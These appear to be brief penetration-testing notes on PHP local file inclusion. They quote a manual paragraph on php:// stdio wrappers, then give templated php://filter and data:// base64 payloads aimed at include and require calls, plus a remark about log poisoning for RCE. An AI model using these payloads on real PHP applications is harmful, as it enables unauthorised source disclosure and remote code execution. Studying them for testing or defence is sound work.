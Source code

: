 # PHP tags
php://stdin, php://stdout and php://stderr ¶
php://stdin, php://stdout and php://stderr allow direct access to the corresponding input or output stream of the PHP process. The stream references a duplicate file descriptor, so if you open php://stdin and later close it, you close only your copy of the descriptor-the actual stream referenced by STDIN is unaffected. It is recommended that you simply use the constants STDIN, STDOUT and STDERR instead of manually opening streams using these wrappers.


needs{
include
require
include_once
require_once
}


php://filter/resource=FILE
php://filter/read=string.rot13/resource=FILE
php://filter/convert.base64-encode/resource=FILE

data://text/plain;base64,BASE64-PAYLOAD



searching logs files is useful to make log poisoning and get RCE
